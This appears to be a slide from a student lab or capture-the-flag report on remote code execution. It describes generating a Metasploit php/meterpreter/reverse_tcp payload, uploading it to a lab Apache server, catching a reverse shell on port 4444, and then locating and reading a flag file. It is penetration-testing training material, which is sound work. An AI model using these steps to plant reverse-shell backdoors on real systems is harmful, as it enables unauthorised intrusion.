

# Exploitation: Remote Code Execution
01

02

03

Tools & Processes

1. Created msfvenom payload:

    php/meterpreter/reverse_tcp

2. Uploaded shell exploit to target.

3. Established remote listener via msfconsole on port 4444 and ran exploit.

4. Executed reverse shell backdoor on Capstone Apache server.
Achievements

Opened a remote backdoor shell to the Capstone Apache server and gained access to the root directory on the Capstone server (192.168.1.105).

Found hidden flag.txt file.
Proof of Exploit

meterpreter > shell

find / -iname flag.txt 2>/dev/null

results: /flag.txt

cd /

cat flag.txt :

b1ng0w@5h1sn@m0